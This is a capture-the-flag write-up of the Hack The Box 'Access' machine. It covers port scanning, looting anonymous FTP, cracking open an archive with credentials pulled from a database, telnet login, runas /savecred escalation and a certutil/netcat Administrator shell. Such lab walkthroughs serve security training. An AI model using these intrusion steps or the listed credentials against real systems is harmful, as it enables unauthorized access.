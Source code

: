 ```yaml
---
title: Access - Hack The Box
date: 2022-06-22
categories: [Hack The Box]
tags: []     # TAG names should always be lowercase
---
```


![Desktop View](/assets/hackthebox/access/access-infocard.png)

Access is an enjoyable Windows box marked as medium difficulty. We have anonymous access to the ftp server right from the start. The ftp server contains sensitive files, from which the attacker ultimately extracts login credentials for the exposed telnet service. The attacker thus gains the user's flag. In order to escalate the privileges, we use the *runas* command with the */savecred* option in order to use the saved Administrator credentials - this way we get the root flag.

## **Portscan**
---
```
Nmap scan report for 10.10.10.98
Host is up (0.051s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## **Website**
---

Nothing interesting on the website. From dirbusting I got one path (aspnet_client/system_web) but it seems to be a rabbit hole and not worth enumerating.

![Desktop View](/assets/hackthebox/access/website.png)

## **Microsoft ftpd**
---
It is possible to log in to ftp anonymously. There are two folders in **/** directory.

    ┌──(root㉿kali)-[/home/…/pentesting/htb/boxes/access]
    └─# ftp 10.10.10.98
    Connected to 10.10.10.98.
    220 Microsoft FTP Service
    Name (10.10.10.98:emil): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password: 
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> ls
    425 Cannot open data connection.
    200 PORT command successful.
    150 Opening ASCII mode data connection.
    08-23-18  09:16PM       <DIR>          Backups
    08-24-18  10:00PM       <DIR>          Engineer

Two files were pulled from the ftp server. It should be mentioned that in order to download the backup.mdb file in its entirety, you have to switch to **binary mode** in the ftp client. To do that, just type *binary* into the console while being in ftp client.

    ┌──(root㉿kali)-[/home/…/pentesting/htb/boxes/access]
    └─# file Access\ Control.zip 
    Access Control.zip: Zip archive data, at least v2.0 to extract, compression method=AES Encrypted
                                                                                                                                
    ┌──(root㉿kali)-[/home/…/pentesting/htb/boxes/access]
    └─# file backup.mdb         
    backup.mdb: Microsoft Access Database

When we try to unzip the Access Control.zip file we get the following error.

    Archive:  Access Control.zip
    skipping: Access Control.pst      unsupported compression method 99

It is due to the fact that **unzip** does not support unzipping AES encrypted files at this time. Only the **7z** tool is able to do this. When trying to extract with the 7z utility, we get a message about the required password. At this point, we do not have a password - we have to get it somehow.  

### Backup.mdb
---
Let's try opening the downloaded backup using Microsoft Access. In **auth_user** table we find credentials.

![Desktop View](/assets/hackthebox/access/admin-pass.png)

We could have also found them by using `strings` on the *backup.mdb* file.

    ┌──(root㉿kali)-[/home/…/pentesting/htb/boxes/access]
    └─# strings backup.mdb | grep access4u@security   
    access4u@security

### Access Control.zip
---

Let's use the found password to unarchive the zip file.

    ┌──(root㉿kali)-[/home/…/pentesting/htb/boxes/access]
    └─# 7z x Access\ Control.zip

    7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
    p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Core(TM) i5-10600K CPU @ 4.10GHz (A0655),ASM,AES-NI)

    Scanning the drive for archives:
    1 file, 10870 bytes (11 KiB)

    Extracting archive: Access Control.zip
    --
    Path = Access Control.zip
    Type = zip
    Physical Size = 10870

        
    Enter password (will not be echoed):
    Everything is Ok         

    Size:       271360
    Compressed: 10870

As a result we obtained **Access Control.pst: Microsoft Outlook email folder**.

### Access Control.pst
---

Opening the *pst* file with Microsoft Outlook exposes the following message.

![Desktop View](/assets/hackthebox/access/mail.png)

Let's note the credentials

    security : 4Cc3ssC0ntr0ller

## Telnet - user shell
<hr>

Logging in to Microsoft Telnet Server with the obtained credentials. We are getting a low-level access as **security**.

![Desktop View](/assets/hackthebox/access/telnet-login.png)

Getting the user flag.

![Desktop View](/assets/hackthebox/access/user-flag.png)

## Runas - root shell
<hr>

Using the `cmdkey` command to list the stored credentials on the machine.

![Desktop View](/assets/hackthebox/access/cmdkey.png)

We can use `runas` to read the *root.txt* file, but let's create a more stable `netcat` session. Starting http server on the attacker machine and downloading `nc.exe` with `certutil` on the victim.

![Desktop View](/assets/hackthebox/access/file-transfer.png)

Starting to listen on port 9090 and running `nc.exe` as an Administrator.

![Desktop View](/assets/hackthebox/access/runas.png)

Reading the root flag.

![Desktop View](/assets/hackthebox/access/root-flag.png)